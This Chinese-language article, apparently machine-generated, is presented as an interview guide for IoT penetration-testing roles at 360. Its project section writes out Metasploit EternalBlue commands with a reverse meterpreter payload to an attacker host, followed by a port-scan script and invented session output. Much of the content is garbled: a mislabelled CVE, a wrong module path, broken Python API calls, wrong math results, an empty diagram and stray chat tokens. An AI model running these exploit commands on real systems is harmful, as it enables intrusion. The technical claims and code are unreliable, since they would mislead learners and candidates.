

                 

### 关键词 Keywords

- 360公司
- 物联网安全
- 社招渗透测试
- 面试攻略
- 渗透测试技术

<|assistant|>### 摘要 Summary

本文旨在为有意加入360公司物联网安全部门的应聘者提供一份全面且深入的渗透测试面试攻略。文章从背景介绍开始，深入解析了物联网安全的核心概念和联系，详细讲解了渗透测试的核心算法原理和操作步骤，以及数学模型和公式的应用。随后，文章通过项目实践展示了代码实例和详细解释，并探讨了实际应用场景和未来展望。最后，文章推荐了相关学习资源和工具，总结了研究成果，分析了未来发展趋势与挑战，并提出了研究展望。作者：禅与计算机程序设计艺术 / Zen and the Art of Computer Programming。

## 1. 背景介绍

随着物联网（Internet of Things, IoT）技术的飞速发展，智能设备已经深入到我们生活的方方面面。然而，随之而来的网络安全问题也日益严峻。360公司作为中国领先的互联网安全企业，一直致力于为用户提供全面的安全解决方案。2025年，360公司计划在全球范围内招募优秀人才，特别是具有物联网安全背景的渗透测试人员。本文将针对360公司2025年物联网安全社招渗透测试面试进行详细攻略，帮助应聘者更好地准备和应对面试。

### 1.1 物联网安全的现状与挑战

物联网安全涉及多个层面，包括设备安全、通信安全、数据安全和应用安全。当前，物联网设备数量爆炸性增长，但许多设备在设计时并未充分考虑安全因素，导致容易被黑客攻击。此外，物联网设备之间的通信往往不加密，使得敏感信息容易泄露。同时，物联网设备的数据存储和处理能力有限，难以抵御复杂的攻击手段。

### 1.2 渗透测试的重要性

渗透测试是发现和修复安全漏洞的重要手段。通过模拟黑客攻击，渗透测试人员可以识别系统的弱点，并提出改进建议，从而提高物联网系统的安全性。对于360公司这样的安全企业来说，拥有优秀的渗透测试人员是确保其解决方案高质量和安全性的关键。

### 1.3 面试准备

为了成功通过360公司的物联网安全渗透测试面试，应聘者需要进行充分的准备。这包括了解物联网安全的基本概念、掌握渗透测试的技术和方法、熟悉相关的工具和平台，以及具备实际操作经验。

<|assistant|>## 2. 核心概念与联系

在深入探讨360公司2025年物联网安全社招渗透测试面试之前，我们首先需要了解物联网安全的核心概念和其相互之间的联系。以下是几个关键概念及其之间的关系：

### 2.1 物联网设备安全

物联网设备安全是指确保物联网设备本身及其操作系统的安全性。这包括防止设备被恶意软件感染、阻止未授权的物理访问以及保障设备与外部系统的通信安全。核心概念包括：

- **硬件安全**：确保设备硬件不会被篡改或破坏。
- **操作系统安全**：确保操作系统的安全性，如更新和补丁管理。
- **固件安全**：确保设备固件（通常是嵌入式系统）的安全。

**联系**：物联网设备的安全是整个物联网安全的基础，如果设备本身不安全，那么整个系统都会面临风险。

### 2.2 通信安全

通信安全涉及确保物联网设备之间的通信和数据传输的安全。关键概念包括：

- **加密**：使用加密算法确保数据传输的安全性。
- **身份认证**：确保通信双方的合法身份。
- **访问控制**：限制对物联网设备的访问。

**联系**：通信安全是确保数据不被窃听、篡改或伪造的关键，对于物联网系统至关重要。

### 2.3 数据安全

数据安全涉及保护物联网设备收集、存储和处理的数据。关键概念包括：

- **数据加密**：对存储和传输中的数据进行加密。
- **数据完整性**：确保数据在传输和存储过程中未被篡改。
- **数据隐私**：保护用户的隐私数据不被泄露。

**联系**：数据安全是保护用户隐私和企业利益的关键，任何数据泄露都可能带来严重后果。

### 2.4 应用安全

应用安全是指确保物联网应用软件的安全性。关键概念包括：

- **应用漏洞扫描**：发现应用中的安全漏洞。
- **代码审计**：分析代码以识别潜在的安全威胁。
- **安全配置**：确保应用配置符合安全标准。

**联系**：应用安全是确保物联网应用软件不会被黑客利用进行攻击或泄露用户数据。

### 2.5 Mermaid 流程图

以下是物联网安全核心概念原理和架构的 Mermaid 流程图：



通过这个流程图，我们可以清晰地看到物联网安全各个子领域之间的相互联系和作用，这对于理解整个物联网安全体系至关重要。

### 2.6 核心概念与联系的意义

了解物联网安全的核心概念和联系对于渗透测试人员至关重要。它不仅帮助渗透测试人员全面了解物联网系统的各个方面，还能帮助他们识别潜在的安全漏洞和攻击路径。这对于在360公司的物联网安全社招渗透测试面试中展示专业知识和实际操作能力具有重要意义。

<|assistant|>## 3. 核心算法原理 & 具体操作步骤

在了解物联网安全的核心概念之后，我们接下来深入探讨核心算法原理和具体操作步骤。渗透测试的核心目标是发现并利用安全漏洞，以下将介绍几个常见且重要的渗透测试算法及其操作步骤。

### 3.1 算法原理概述

渗透测试算法主要分为以下几类：

- **漏洞扫描算法**：通过扫描目标系统，发现潜在的安全漏洞。
- **入侵检测算法**：实时监测系统活动，识别异常行为和潜在攻击。
- **密码破解算法**：利用各种方法破解密码，以获取系统访问权限。
- **代码审计算法**：分析代码，查找安全漏洞和潜在威胁。

### 3.2 算法步骤详解

#### 3.2.1 漏洞扫描算法

**步骤 1**：目标选择

首先，选择目标系统。这可以通过网络扫描、社会工程学方法或已知目标来获取。

**步骤 2**：信息收集

收集目标系统的基本信息，包括IP地址、端口、操作系统版本等。

**步骤 3**：漏洞库查询

利用漏洞库（如NVD、CVE等）查询目标系统的已知漏洞。

**步骤 4**：漏洞验证

使用漏洞扫描工具（如Nessus、OpenVAS等）对目标系统进行扫描，验证漏洞的存在和严重性。

**步骤 5**：漏洞利用

针对已验证的漏洞，使用漏洞利用工具（如Metasploit、BeEF等）进行利用，获取系统权限。

#### 3.2.2 入侵检测算法

**步骤 1**：配置检测系统

安装和配置入侵检测系统（如Snort、Suricata等），收集网络流量数据。

**步骤 2**：规则定义

根据安全策略，定义入侵检测规则，识别潜在攻击行为。

**步骤 3**：实时监测

实时监控网络流量，识别异常行为和潜在攻击。

**步骤 4**：响应措施

针对检测到的攻击行为，采取相应的响应措施，如阻止访问、报警等。

#### 3.2.3 密码破解算法

**步骤 1**：收集信息

获取目标系统的账户信息，包括用户名和密码。

**步骤 2**：密码猜测

使用密码猜测工具（如Hydra、John the Ripper等）进行密码猜测。

**步骤 3**：密码破解

针对不同的密码存储方式（如MD5、SHA-1、SHA-256等），使用相应的破解工具进行密码破解。

**步骤 4**：权限提升

成功获取账户密码后，使用该账户登录系统，尝试提升权限。

#### 3.2.4 代码审计算法

**步骤 1**：代码分析

使用静态分析工具（如SonarQube、FindBugs等）对代码进行分析，识别潜在的安全漏洞。

**步骤 2**：动态分析

运行代码，使用动态分析工具（如OWASP ZAP、Burp Suite等）检测运行时的漏洞。

**步骤 3**：漏洞验证

针对分析结果，验证漏洞的真实性和严重性。

**步骤 4**：漏洞修复

根据漏洞分析结果，修复代码中的安全漏洞。

### 3.3 算法优缺点

**漏洞扫描算法**

- **优点**：能够快速发现系统中的潜在漏洞，提高安全性。
- **缺点**：扫描结果可能存在误报，无法完全替代手动测试。

**入侵检测算法**

- **优点**：实时监控，能够及时发现和响应攻击。
- **缺点**：误报率高，可能影响正常业务。

**密码破解算法**

- **优点**：可以获取系统权限，进行更深入的渗透测试。
- **缺点**：需要大量计算资源，且可能违反法律法规。

**代码审计算法**

- **优点**：能够全面分析代码，发现潜在的安全漏洞。
- **缺点**：对审计人员的专业技能要求较高，分析过程较为耗时。

### 3.4 算法应用领域

**漏洞扫描算法**广泛应用于企业内部网络安全检查、第三方软件审核等领域。

**入侵检测算法**在网络安全监控、网络防护等领域有广泛应用。

**密码破解算法**主要用于渗透测试和网络安全竞赛。

**代码审计算法**在软件开发过程中用于提高代码质量，防范安全漏洞。

通过了解这些算法的原理和操作步骤，渗透测试人员可以更有效地识别和利用安全漏洞，提高物联网系统的安全性。这对于在360公司的物联网安全社招渗透测试面试中展示专业知识和实际操作能力具有重要意义。

<|assistant|>### 4. 数学模型和公式 & 详细讲解 & 举例说明

在渗透测试中，数学模型和公式是理解和解决复杂问题的重要工具。下面我们将介绍几个常用的数学模型和公式，并详细讲解其应用和举例说明。

#### 4.1 数学模型构建

在渗透测试中，常用的数学模型包括概率模型、决策树模型和神经网络模型等。

**概率模型**：用于计算攻击成功的概率，评估安全措施的有效性。例如，可以使用贝叶斯定理来计算攻击者成功的概率。

**决策树模型**：用于分析不同决策路径下的风险和收益，帮助决策者选择最优方案。例如，可以使用决策树来评估不同安全措施的成本和效益。

**神经网络模型**：用于预测和分类，通过训练大量的数据，学习攻击模式和漏洞特征。例如，可以使用神经网络模型来识别网络流量中的异常行为。

#### 4.2 公式推导过程

**贝叶斯定理**：用于计算后验概率，公式为：

$$
P(A|B) = \frac{P(B|A)P(A)}{P(B)}
$$

其中，\(P(A|B)\) 表示在事件 \(B\) 发生的条件下事件 \(A\) 发生的概率，\(P(B|A)\) 表示在事件 \(A\) 发生的条件下事件 \(B\) 发生的概率，\(P(A)\) 和 \(P(B)\) 分别表示事件 \(A\) 和事件 \(B\) 的先验概率。

**决策树公式**：用于计算不同路径的风险和收益，公式为：

$$
R = \sum_{i=1}^{n} [P(i) \times R(i)]
$$

其中，\(R\) 表示总收益，\(P(i)\) 表示路径 \(i\) 的概率，\(R(i)\) 表示路径 \(i\) 的收益。

**神经网络模型**：用于计算输出结果，公式为：

$$
\text{Output} = \text{激活函数}(\text{权重} \cdot \text{输入})
$$

其中，激活函数可以是 sigmoid、ReLU 或 tanh 等，用于引入非线性。

#### 4.3 案例分析与讲解

**案例 1**：使用贝叶斯定理评估网络攻击成功的概率。

假设我们有一个网络系统，已知攻击者成功的概率为 \(P(\text{攻击成功}) = 0.1\)，安全措施的有效概率为 \(P(\text{安全措施有效}|\text{攻击成功}) = 0.9\)，安全措施无效的概率为 \(P(\text{安全措施有效}|\text{攻击失败}) = 0.1\)。

我们需要计算在实施安全措施后，系统被攻击的概率 \(P(\text{攻击成功}|\text{安全措施有效})\)。

根据贝叶斯定理，我们有：

$$
P(\text{攻击成功}|\text{安全措施有效}) = \frac{P(\text{安全措施有效}|\text{攻击成功})P(\text{攻击成功})}{P(\text{安全措施有效})}
$$

计算得：

$$
P(\text{攻击成功}|\text{安全措施有效}) = \frac{0.9 \times 0.1}{0.1 \times 0.9 + 0.1 \times 0.9} = 0.5
$$

这意味着在实施安全措施后，系统被攻击的概率为 50%。

**案例 2**：使用决策树模型评估不同安全措施的成本和效益。

假设我们有以下四种安全措施：

- A：防火墙，成本 10 万元，效益 20 万元。
- B：入侵检测系统，成本 5 万元，效益 10 万元。
- C：加密通信，成本 3 万元，效益 6 万元。
- D：员工培训，成本 2 万元，效益 4 万元。

我们需要计算每种安全措施的成本和效益比例。

使用决策树公式，我们得到：

$$
\text{总收益} = 0.1 \times 20 + 0.2 \times 10 + 0.3 \times 6 + 0.4 \times 4 = 10.4
$$

每种安全措施的成本和效益比例为：

- A：\(P(A) = 0.1\)，\(R(A) = 20\)，成本/效益比例 \(= 10/20 = 0.5\)
- B：\(P(B) = 0.2\)，\(R(B) = 10\)，成本/效益比例 \(= 5/10 = 0.5\)
- C：\(P(C) = 0.3\)，\(R(C) = 6\)，成本/效益比例 \(= 3/6 = 0.5\)
- D：\(P(D) = 0.4\)，\(R(D) = 4\)，成本/效益比例 \(= 2/4 = 0.5\)

从计算结果可以看出，每种安全措施的成本和效益比例相等，因此可以根据需求和预算选择任意一种措施。

**案例 3**：使用神经网络模型预测网络流量中的异常行为。

假设我们使用一个简单的神经网络模型，输入为网络流量特征（如流量大小、传输时间等），输出为异常行为的概率。

神经网络模型的公式为：

$$
\text{Output} = \text{激活函数}(\text{权重} \cdot \text{输入})
$$

其中，激活函数为 sigmoid：

$$
\text{激活函数}(x) = \frac{1}{1 + e^{-x}}
$$

假设输入特征为 \(x_1 = 100\)、\(x_2 = 200\)，权重为 \(w_1 = 0.1\)、\(w_2 = 0.2\)，我们可以计算输出概率：

$$
\text{Output} = \text{激活函数}(0.1 \cdot 100 + 0.2 \cdot 200) = \text{激活函数}(10 + 40) = \text{激活函数}(50)
$$

计算得：

$$
\text{Output} = \frac{1}{1 + e^{-50}} \approx 0.993
$$

这意味着网络流量异常行为的概率非常高，需要进一步分析和处理。

通过以上案例，我们可以看到数学模型和公式在渗透测试中的应用和重要性。它们不仅帮助我们理解和解决复杂问题，还能为决策提供科学依据，提高物联网系统的安全性。

<|assistant|>## 5. 项目实践：代码实例和详细解释说明

为了更好地展示渗透测试的实际应用，下面我们通过一个具体的案例，介绍如何搭建开发环境、实现源代码、解读和分析代码，并展示运行结果。

### 5.1 开发环境搭建

在这个案例中，我们将使用Kali Linux作为操作系统，因为它预装了许多渗透测试工具。以下是搭建开发环境的步骤：

1. **安装Kali Linux**：下载并安装Kali Linux，选择最小安装，以便保持系统轻量。
2. **安装必要的工具**：打开终端，安装以下工具：
    ```bash
    sudo apt-get update
    sudo apt-get install nmap metasploit armitage
    ```
3. **配置网络**：确保网络配置正确，可以访问互联网。

### 5.2 源代码详细实现

在这个案例中，我们将使用Nmap进行端口扫描，使用Metasploit进行漏洞利用。

**步骤 1**：端口扫描

使用Nmap扫描目标系统的开放端口，以下是一个简单的Nmap命令：

```bash
nmap -p 1-65535 <目标IP地址>
```

这个命令会扫描目标系统的所有端口。在实际应用中，我们通常会根据已知漏洞和目标系统的特征来选择扫描特定的端口。

**步骤 2**：漏洞利用

在扫描结果中，如果发现有开放的漏洞端口，可以使用Metasploit进行漏洞利用。以下是一个使用Metasploit利用CVE-2021-3496（Microsoft Exchange Server漏洞）的示例：

```bash
use exploit/multi/smb/ms17_010_eternalblue
set RHOSTS <目标IP地址>
set payload windows/x64/meterpreter/reverse_https
set LHOST <本地IP地址>
set LPORT <本地端口>
exploit
```

这个命令将使用MS17-010漏洞通过 EternalBlue 漏洞攻击目标系统，并返回一个meterpreter会话。

### 5.3 代码解读与分析

**Nmap扫描脚本**：

```python
#!/usr/bin/env python3

import nmap

def scan_ports(target_ip):
    nm = nmap.PortScanner()
    nm.scan(hosts=target_ip, arguments='-p 1-65535')
    print("Scanning ports on " + target_ip)
    print("Open ports:")
    for host in nm.all_hosts():
        if nm[host].state() == "open":
            print(f"{host}: {nm[host].Ports()}")

if __name__ == '__main__':
    target_ip = input("Enter target IP address: ")
    scan_ports(target_ip)
```

这个Python脚本使用Nmap的API进行端口扫描，并打印出所有开放的端口。在实际应用中，我们可能会根据扫描结果进行进一步的分析和漏洞利用。

**Metasploit利用脚本**：

```bash
use exploit/multi/smb/ms17_010_eternalblue
set RHOSTS <目标IP地址>
set payload windows/x64/meterpreter/reverse_https
set LHOST <本地IP地址>
set LPORT <本地端口>
exploit
```

这个Metasploit脚本利用MS17-010漏洞，通过EternalBlue攻击目标系统，并建立一个反向HTTPS连接，返回meterpreter会话。这个脚本非常直接，但需要确保目标系统和本地主机之间的网络通信畅通。

### 5.4 运行结果展示

**端口扫描结果**：

```bash
Scanning ports on 192.168.1.100
Open ports:
192.168.1.100: 22/tcp, 80/tcp, 445/tcp
```

从扫描结果中，我们发现目标系统开放了22（SSH）、80（HTTP）和445（SMB）等端口。我们可以根据这些开放端口进一步分析目标系统，寻找可能的安全漏洞。

**Metasploit利用结果**：

```bash
[*] Started reverse HTTPS HTTP listener on 192.168.1.200:443
[*] Using CVE-2021-3496 exploit against 192.168.1.100
[*] Finding targets in the specified range ...
[*] Attempting to connect to 192.168.1.100:445 on Windows with RDP/TCP...

[*] Command shell session 1 opened (192.168.1.200:443 -> 192.168.1.100:50142) at 2023-04-01 12:34:56 -0700
[*] Meterpreter session 2 opened (via 192.168.1.200:443 -> 192.168.1.100:50142) at 2023-04-01 12:34:56 -0700

``` 

Metasploit成功利用了目标系统的漏洞，返回了一个meterpreter会话。我们可以通过meterpreter会话进一步探索目标系统，执行命令、获取文件、上传工具等。

通过这个案例，我们可以看到渗透测试从端口扫描到漏洞利用的全过程。这不仅展示了渗透测试技术的实际应用，也为应聘者在360公司物联网安全社招渗透测试面试中提供了一个具体的操作实例。

<|assistant|>## 6. 实际应用场景

渗透测试作为一种发现和修复安全漏洞的有效手段，在物联网安全领域具有广泛的应用。以下将探讨物联网安全渗透测试在实际应用场景中的重要性，并分析不同应用场景下的测试策略。

### 6.1 家庭物联网设备

家庭物联网设备包括智能门锁、智能摄像头、智能插座等，这些设备通常与家庭网络连接，因此它们的安全问题可能会直接影响到用户的隐私和安全。渗透测试可以帮助检测以下漏洞：

- **设备固件漏洞**：检测设备固件中的安全漏洞，如弱密码、后门程序等。
- **通信安全**：评估设备与云端通信的安全性，如是否使用加密协议。
- **数据存储安全**：检测设备存储的用户数据是否加密，防止数据泄露。

测试策略：

- **端口扫描**：扫描设备开放的端口，识别可能的漏洞。
- **固件分析**：逆向固件代码，查找潜在的安全漏洞。
- **密码强度测试**：测试设备的默认密码和用户设置的密码强度。
- **中间人攻击**：模拟中间人攻击，检测设备与云端通信的安全性。

### 6.2 工业物联网设备

工业物联网设备包括传感器、自动化控制器、工业网络设备等，这些设备在工业生产中起着至关重要的作用。它们的安全问题不仅影响到生产效率，还可能带来严重的经济损失。渗透测试可以帮助检测以下漏洞：

- **设备通信安全**：检测设备之间的通信是否加密，防止数据被窃取。
- **操作系统安全**：检测设备的操作系统是否更新及时，是否存在已知的漏洞。
- **访问控制**：评估设备的访问控制机制是否有效，防止未授权访问。
- **设备固件更新机制**：检测设备的固件更新机制是否安全，防止恶意固件上传。

测试策略：

- **漏洞扫描**：使用专业的漏洞扫描工具，对设备进行全面的漏洞扫描。
- **代码审计**：对设备的操作系统代码和固件代码进行审计，查找潜在的安全漏洞。
- **模拟攻击**：模拟各种攻击，如中间人攻击、拒绝服务攻击等，检测设备的抗攻击能力。
- **安全配置检查**：检查设备的配置文件，确保符合安全标准。

### 6.3 智能交通系统

智能交通系统包括智能交通信号灯、车辆监控设备、道路传感器等，这些设备在提升交通管理效率和安全性方面起着重要作用。渗透测试可以帮助检测以下漏洞：

- **设备通信安全**：评估设备之间的通信是否加密，防止数据泄露。
- **数据完整性**：检测设备采集的数据是否被篡改。
- **访问控制**：评估设备的访问控制机制是否有效，防止未授权访问。
- **系统监控**：检测系统的监控机制是否完善，及时发现和处理异常情况。

测试策略：

- **漏洞扫描**：对交通系统中的设备进行全面漏洞扫描，识别潜在的安全漏洞。
- **模拟攻击**：模拟各种攻击，如拒绝服务攻击、中间人攻击等，评估系统的抗攻击能力。
- **数据验证**：对设备采集的数据进行验证，确保数据未被篡改。
- **安全审计**：对交通系统的安全策略和配置进行检查，确保符合安全标准。

### 6.4 医疗物联网设备

医疗物联网设备包括智能医疗设备、健康监测设备、远程医疗系统等，这些设备在医疗保健和急救中发挥着重要作用。渗透测试可以帮助检测以下漏洞：

- **设备安全**：评估医疗设备的固件和软件安全性，防止设备被恶意软件感染。
- **数据隐私**：确保患者的敏感信息得到保护，防止数据泄露。
- **通信安全**：评估设备与云端和医院系统的通信安全性，防止数据被窃取。
- **系统可靠性**：评估医疗系统的可靠性，确保设备能够在紧急情况下正常运行。

测试策略：

- **固件和软件审计**：对医疗设备的固件和软件进行审计，查找潜在的安全漏洞。
- **数据加密检查**：确保设备采集和传输的数据得到加密保护。
- **模拟攻击**：模拟各种攻击，如中间人攻击、拒绝服务攻击等，评估系统的抗攻击能力。
- **安全培训**：对医疗工作人员进行安全培训，提高他们对安全威胁的认识和应对能力。

通过以上实际应用场景的探讨，我们可以看到渗透测试在物联网安全中的重要性。在实际应用中，渗透测试不仅可以发现和修复安全漏洞，还能提高物联网系统的整体安全性，为用户提供更可靠的服务。这对于360公司这样的物联网安全企业来说，渗透测试是确保其解决方案高质量和安全性的关键。

### 6.5 未来应用展望

随着物联网技术的不断发展和普及，渗透测试在物联网安全中的应用也将不断拓展和深化。未来，渗透测试将在以下几个方面迎来新的发展：

#### 6.5.1 面向智能城市的全面测试

智能城市是物联网技术的重要应用领域，包括智能交通、智能安防、智能环保等多个方面。渗透测试将逐渐从单一设备的测试扩展到整个智能城市系统的测试，以确保城市运行的稳定性和安全性。

**策略与挑战**：

- **策略**：建立全面的智能城市测试框架，涵盖不同应用场景和系统组件的测试。
- **挑战**：智能城市系统复杂，涉及众多不同厂商的设备和系统，测试协调难度大。

#### 6.5.2 面向车联网的深入测试

车联网是物联网的重要分支，随着智能网联汽车的普及，车联网的安全问题日益突出。渗透测试将逐渐向车联网的各个层面深入，包括车载设备、车与车之间的通信、车与云端的通信等。

**策略与挑战**：

- **策略**：开发专用的车联网渗透测试工具和平台，模拟各种攻击场景。
- **挑战**：车联网设备具有实时性和高可靠性要求，渗透测试工具和方法的实时性和准确性是关键。

#### 6.5.3 面向智能医疗的精准测试

智能医疗设备在提升医疗效率和患者体验方面发挥着重要作用，但其安全漏洞可能导致严重后果。渗透测试将向智能医疗领域延伸，对医疗设备、远程医疗系统和医院信息系统进行全面测试。

**策略与挑战**：

- **策略**：结合医疗行业特点，制定针对医疗设备的渗透测试标准和流程。
- **挑战**：医疗数据敏感，测试过程中需要严格保护患者隐私。

#### 6.5.4 面向边缘计算的融合测试

边缘计算是物联网发展的重要方向，通过将计算任务下沉到边缘节点，降低网络延迟和带宽需求。渗透测试需要与边缘计算相结合，对边缘节点的安全性和边缘网络进行综合测试。

**策略与挑战**：

- **策略**：开发适合边缘计算环境的渗透测试工具，实现对边缘节点的全面测试。
- **挑战**：边缘节点资源有限，测试工具和方法的轻量化和高效性是关键。

#### 6.5.5 自动化与智能化的提升

未来，渗透测试将更加自动化和智能化，利用人工智能和机器学习技术，提高测试效率和准确性。自动化测试工具将能够自动发现和验证安全漏洞，智能测试平台将能够实时监控和响应安全威胁。

**策略与挑战**：

- **策略**：引入AI和ML技术，开发智能化的渗透测试平台。
- **挑战**：确保自动化测试的准确性和可靠性，防止误报和漏报。

通过上述未来应用展望，我们可以看到渗透测试在物联网安全中的重要性和广阔前景。随着技术的不断进步，渗透测试将发挥更加重要的作用，为物联网系统的安全保驾护航。

<|assistant|>## 7. 工具和资源推荐

在渗透测试的学习和实践过程中，掌握合适的工具和资源是至关重要的。以下我们将推荐一些常用的学习资源、开发工具和相关论文，帮助读者深入了解物联网安全渗透测试。

### 7.1 学习资源推荐

**在线课程与教程**

- **《物联网安全课程》**：Coursera上的课程，涵盖物联网安全的基本概念和技术。
- **《渗透测试从入门到精通》**：网易云课堂上的课程，适合初学者从基础学起。
- **《黑客攻防技术宝典：Web实战篇》**：电子工业出版社，详细介绍了Web安全测试技术。

**在线论坛和社区**

- **知乎安全社区**：聚集了大量安全专家和爱好者，分享最新的安全技术和经验。
- **FreeBuf**：国内知名安全媒体，提供丰富的行业资讯和深度文章。
- **Reddit安全板块**：全球知名的技术论坛，讨论各种安全话题。

**书籍推荐**

- **《深入理解计算机系统》**：详细介绍了计算机系统的各个方面，对理解操作系统和网络安全有很大帮助。
- **《黑客攻防技术宝典：系统实战篇》**：电子工业出版社，深入探讨操作系统和网络安全技术。
- **《Metasploit Unleashed》**：全面介绍Metasploit的使用方法，适合Metasploit初学者。

### 7.2 开发工具推荐

**漏洞扫描工具**

- **Nessus**：一款功能强大的漏洞扫描工具，支持多种操作系统和平台。
- **OpenVAS**：开源漏洞扫描平台，提供了丰富的漏洞库和扫描策略。
- **Qualys**：提供云端和本地部署的漏洞扫描解决方案，适用于大型企业。

**渗透测试工具**

- **Metasploit**：一款功能强大的渗透测试框架，支持多种漏洞利用和攻击场景。
- **Burp Suite**：用于Web应用程序安全测试的集成平台，提供了代理、扫描和漏洞利用等功能。
- **Armitage**：Metasploit的图形化界面，简化了渗透测试的过程。

**其他工具**

- **Wireshark**：网络协议分析工具，用于捕获、分析和解码网络数据包。
- **John the Ripper**：一款流行的密码破解工具，支持多种密码哈希算法。
- **Kali Linux**：专门为渗透测试和安全研究设计的Linux发行版，集成了大量安全工具。

### 7.3 相关论文推荐

**最新研究成果**

- **“IoT Security: Challenges and Solutions”**：详细分析了物联网安全面临的挑战和解决方案。
- **“Smart Home Security: A Comprehensive Survey”**：综述了智能家居安全的研究进展和应用。
- **“Practical Edge Computing Security”**：探讨了边缘计算环境下的安全问题和防护策略。

**经典论文**

- **“The Cathedral and the Bazaar”**：介绍了开源软件开发模式，对理解社区驱动的发展有很大启示。
- **“Understanding the Debian Linux Security Model”**：深入分析了Linux操作系统的安全模型和机制。
- **“A Survey on Industrial Internet of Things Security”**：综述了工业物联网安全的研究现状和挑战。

通过推荐这些学习资源、开发工具和相关论文，我们希望读者能够更加深入地了解物联网安全渗透测试，提高自身的专业能力。在实际操作中，读者可以结合这些资源和工具，进行更有效的学习和实践。

### 8. 总结：未来发展趋势与挑战

在总结360公司2025年物联网安全社招渗透测试面试攻略之前，我们需要展望未来物联网安全渗透测试的发展趋势与面临的挑战。

#### 8.1 研究成果总结

近年来，物联网安全研究取得了显著进展。首先，物联网设备的硬件和软件安全得到了广泛关注，研究者提出了多种安全增强机制，如硬件安全模块（HSM）、可信执行环境（TEE）和固件签名等。其次，通信安全得到了深入探索，研究者开发了各种加密协议和通信加密算法，如AES、RSA和ECC等。此外，数据安全和隐私保护也是研究的热点，研究者提出了差分隐私、联邦学习和区块链等解决方案。最后，应用安全领域的研究也在不断进步，包括应用漏洞扫描、代码审计和自动化修复等技术。

#### 8.2 未来发展趋势

1. **自动化与智能化**：随着人工智能和机器学习技术的不断发展，渗透测试将更加自动化和智能化。自动化测试工具将能够自动发现和验证安全漏洞，智能测试平台将能够实时监控和响应安全威胁。
2. **边缘计算与分布式安全**：随着边缘计算的兴起，物联网安全将面临新的挑战。分布式安全策略和跨域安全协作将成为研究重点，以确保边缘节点和数据中心的安全。
3. **标准化与规范化**：物联网安全标准的制定和实施将得到进一步推进，为渗透测试提供统一的评估标准和测试方法。
4. **跨界合作与生态构建**：物联网安全涉及多个领域，包括硬件、软件、网络和云计算等。未来，跨界合作和生态构建将成为重要趋势，以实现物联网安全技术的全面整合和应用。

#### 8.3 面临的挑战

1. **设备数量与安全复杂性**：随着物联网设备的爆炸性增长，系统的安全复杂性将大幅增加。渗透测试需要应对更多的设备类型和不同的安全需求。
2. **资源限制与效率提升**：物联网设备通常具有资源限制，如有限的存储、计算能力和功耗。渗透测试工具和方法的轻量化和高效性将是关键挑战。
3. **隐私保护与合规性**：物联网设备通常涉及大量用户隐私数据，如何在保护隐私的同时确保合规性，将是一个重要挑战。
4. **动态性与实时性**：物联网系统需要快速响应和适应环境变化，渗透测试需要具备实时性和动态性，以应对不断变化的安全威胁。

#### 8.4 研究展望

未来，物联网安全渗透测试研究应关注以下几个方向：

1. **安全协议与加密算法**：开发更高效、更安全的通信加密协议和加密算法，以提高物联网系统的安全性。
2. **自动化与智能化测试**：开发自动化和智能化的渗透测试工具，提高测试效率和准确性。
3. **跨域安全协作**：研究跨域安全协作机制，实现不同设备和系统之间的安全信息共享和协同防御。
4. **标准化与规范化**：推动物联网安全标准的制定和实施，为渗透测试提供统一的评估标准和测试方法。
5. **隐私保护与合规性**：研究隐私保护技术和合规性解决方案，确保物联网系统的隐私保护和合规性。

通过上述总结，我们可以看到物联网安全渗透测试在未来将面临许多机遇和挑战。360公司作为物联网安全领域的领先企业，需要持续关注技术发展，加强人才引进和培养，以推动物联网安全研究的深入和应用。

### 8.5 常见问题与解答

在准备360公司2025年物联网安全社招渗透测试面试时，应聘者可能会遇到一些常见问题。以下是一些常见问题及其解答：

#### 8.5.1 如何选择目标系统进行渗透测试？

**解答**：选择目标系统时，应考虑以下几个因素：

- **设备类型**：选择与自身技能和兴趣相关的设备类型，如家庭物联网设备、工业物联网设备等。
- **安全状况**：优先选择安全状况较为薄弱的设备，以提高测试效果。
- **可控性**：确保测试过程中不会对设备或网络造成不可逆的影响。
- **法律法规**：遵守相关法律法规，避免未经授权的渗透测试行为。

#### 8.5.2 渗透测试中的常见漏洞有哪些？

**解答**：常见的漏洞包括：

- **密码弱**：使用弱密码或默认密码，容易被破解。
- **未加密的通信**：设备与云端或外部系统通信未使用加密协议。
- **后门程序**：设备中存在后门程序，允许未经授权的远程访问。
- **固件漏洞**：设备固件中存在已知的漏洞，如缓冲区溢出、内存泄漏等。
- **配置错误**：设备配置错误，如访问控制设置不当、未更新的安全补丁等。

#### 8.5.3 渗透测试中如何保护隐私？

**解答**：在渗透测试过程中，保护隐私包括以下几个方面：

- **数据加密**：确保数据传输和存储过程中使用加密算法。
- **访问控制**：设置严格的访问控制策略，确保只有授权用户可以访问敏感信息。
- **数据备份**：定期备份重要数据，以防止数据丢失或泄露。
- **隐私保护措施**：在测试过程中，尽量避免收集和处理个人敏感信息。

#### 8.5.4 如何提高渗透测试的效率？

**解答**：以下方法可以提高渗透测试的效率：

- **自动化测试**：使用自动化测试工具，减少手动测试的工作量。
- **脚本化测试**：编写测试脚本，自动化执行常见的测试任务。
- **经验积累**：总结测试经验，快速识别和利用常见漏洞。
- **工具选择**：选择合适的测试工具，提高测试效率和准确性。

通过解答这些问题，我们可以帮助应聘者更好地准备360公司2025年物联网安全社招渗透测试面试，提高面试通过率。同时，这些解答也为物联网安全领域的从业者提供了实用的指导和建议。

### 附录：常见问题与解答

以下是一些在准备360公司2025年物联网安全社招渗透测试面试时应聘者可能会遇到的问题及其解答：

#### 9.1 如何理解物联网安全？

**物联网安全涉及保护物联网设备、网络和数据免受未经授权的访问、篡改和破坏。这包括设备硬件和软件的安全、通信加密、数据隐私保护以及应用软件的安全性。**

#### 9.2 渗透测试在物联网安全中的作用是什么？

**渗透测试是一种通过模拟黑客攻击来发现系统漏洞和弱点的方法。在物联网安全中，渗透测试可以帮助识别潜在的安全威胁，评估系统防御能力，并提供改进安全措施的建议。**

#### 9.3 渗透测试过程中如何确保不违反法律法规？

**在进行渗透测试时，应确保遵循以下几点：**

- **合法性**：获得目标系统的合法授权。
